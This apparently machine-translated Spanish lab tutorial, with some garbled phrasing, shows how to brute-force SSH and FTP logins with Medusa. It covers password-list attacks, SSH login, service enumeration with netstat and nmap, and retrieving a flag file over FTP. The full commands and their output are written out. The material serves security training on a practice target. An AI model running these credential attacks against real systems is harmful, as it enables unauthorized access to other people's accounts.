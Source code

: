 # Servicios web

---

En el panorama dinámico de la ciberseguridad, el mantenimiento de mecanismos de autenticación robustos es primordial. Mientras que tecnologías como Secure Shell (`SSH`) y protocolo de transferencia de archivos (`FTP`) Facilitar el acceso remoto seguro y la gestión de archivos, a menudo dependen de las combinaciones tradicionales de nombre de usuario de nombre de usuario, presentando posibles vulnerabilidades explotables a través de ataques de fuerza bruta. En este módulo, profundizaremos en la aplicación práctica de`Medusa`, una potente herramienta de falsificación bruta, para comprometer sistemáticamente los servicios SSH y FTP, ilustrando así potenciales vectores de ataque y enfatizando la importancia de las prácticas de autenticación fortificadas.

`SSH`es un protocolo de red criptográfica que proporciona un canal seguro para el inicio de sesión remoto, la ejecución de comandos y las transferencias de archivos a través de una red no garantizada. Su fuerza radica en su cifrado, lo que lo hace significativamente más seguro que los protocolos no cifrados como`Telnet`. Sin embargo, las contraseñas débiles o fácilmente adivinables pueden socavar la seguridad de SSH, exponiéndola a ataques de fuerza bruta.

`FTP`es un protocolo de red estándar para transferir archivos entre un cliente y un servidor en una red de computadora. También se usa ampliamente para cargar y descargar archivos de los sitios web. Sin embargo, el FTP estándar transmite datos, incluidas las credenciales de inicio de sesión, en ClearText, lo que lo hace susceptible a la intercepción y el forzo bruto.

## Patada inicial

**Para seguir, inicie el sistema de destino a través de la sección de preguntas en la parte inferior de la página.**

Comenzamos nuestra exploración dirigida a un servidor SSH que se ejecuta en un sistema remoto. Asumiendo el conocimiento previo del nombre de usuario`sshuser`, podemos aprovechar Medusa para que intente diferentes combinaciones de contraseñas hasta que la autenticación exitosa se logre sistemáticamente.

The following command serves as our starting point:

  Servicios web

```shell-session
xnoxos@htb[/htb]$ medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

Desglosemos cada componente:

- `-h <IP>`: Especifica la dirección IP del sistema de destino.
- `-n <PORT>`: Define el puerto en el que escucha el servicio SSH (generalmente el puerto 22).
- `-u sshuser`: Establece el nombre de usuario para el ataque de fuerza bruta.
- `-P 2023-200_most_used_passwords.txt`: Punta Medusa a una lista de palabras que contiene las 200 contraseñas más utilizadas en 2023. La efectividad de un ataque de fuerza bruta a menudo está vinculada a la calidad y relevancia de la lista de palabras utilizada.
- `-M ssh`: Selecciona el módulo SSH dentro de Medusa, adaptando el ataque específicamente para la autenticación SSH.
- `-t 3`: Dicta el número de intentos de inicio de sesión paralelos para ejecutar simultáneamente. Aumentar este número puede acelerar el ataque, pero también puede aumentar la probabilidad de detección o desencadenar medidas de seguridad en el sistema objetivo.

  Servicios web

```shell-session
xnoxos@htb[/htb]$ medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
...
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```

Tras la ejecución, Medusa mostrará su progreso a medida que se rinde en bicicleta a través de las combinaciones de contraseña. La salida indicará un inicio de sesión exitoso, revelando la contraseña correcta.

## Obtener acceso

Con la contraseña en la mano, establezca una conexión SSH usando el siguiente comando e ingrese la contraseña encontrada cuando se le solicite:

  Servicios web

```shell-session
xnoxos@htb[/htb]$ ssh sshuser@<IP> -p PORT
```

Este comando iniciará una sesión SSH interactiva, otorgándole acceso a la línea de comandos del sistema remoto.

### Expandiendo la superficie de ataque

Una vez dentro del sistema, el siguiente paso es identificar otras superficies de ataque potenciales. Usando`netstat`(Dentro de la sesión SSH) Para enumerar los puertos y los servicios de escucha, descubres un servicio que se ejecuta en el puerto 21.

  Servicios web

```shell-session
xnoxos@htb[/htb]$ netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```

Más reconocimiento con`nmap`(Dentro de la sesión SSH) confirma este hallazgo como un servidor FTP.

  Servicios web

```shell-session
xnoxos@htb[/htb]$ nmap localhost

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-05 13:19 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000078s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

### Dirigirse al servidor FTP

Habiendo identificado el servidor FTP, puede proceder a la fuerza bruta de su mecanismo de autenticación.

Si exploramos el`/home`directorio en el sistema de destino, vemos un`ftpuser`carpeta, que implica la probabilidad de que el nombre de usuario del servidor FTP sea`ftpuser`. Según esto, podemos modificar nuestro comando Medusa en consecuencia:

  Servicios web

```shell-session
xnoxos@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
```

Las diferencias clave aquí son:

- `-h 127.0.0.1`: Se dirige al sistema local, ya que el servidor FTP se ejecuta localmente. El uso de la dirección IP le dice a Medusa explícitamente que use IPv4.
- `-u ftpuser`: Especifica el nombre de usuario`ftpuser`.
- `-M ftp`: Selecciona el módulo FTP dentro de Medusa.
- `-t 5`: Aumenta el número de intentos de inicio de sesión paralelos a 5.

### Recuperando la bandera

Al descifrar con éxito la contraseña FTP, establezca una conexión FTP. Dentro de la sesión FTP, use el`get`comandar para descargar el`flag.txt`archivo, que puede contener información confidencial.:

  Servicios web

```shell-session
xnoxos@htb[/htb]$ ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp> exit
221 Goodbye.
```

Luego lea el archivo para obtener la bandera:

  Servicios web

```shell-session
xnoxos@htb[/htb]$ cat flag.txt
HTB{...}
```

La facilidad con la que se pueden ejecutar tales ataques subrayan la importancia de emplear contraseñas fuertes y únicas.